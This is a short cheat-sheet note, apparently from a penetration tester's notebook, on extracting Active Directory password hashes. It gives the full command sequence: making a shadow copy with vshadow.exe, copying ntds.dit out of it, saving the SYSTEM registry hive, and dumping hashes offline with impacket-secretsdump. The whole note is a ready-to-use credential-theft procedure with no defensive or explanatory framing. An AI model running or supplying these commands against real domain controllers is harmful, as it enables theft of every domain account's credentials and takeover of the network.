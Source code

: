 #activedirectory #password #persiatance 

#### Extract NTDS

```cmd
vshadow.exe -nw -p  C:
```

Take shadow copy device name from output of the previous command
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

```cmd
reg.exe save hklm\system c:\system.bak
```

#### Getting the hashes

```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
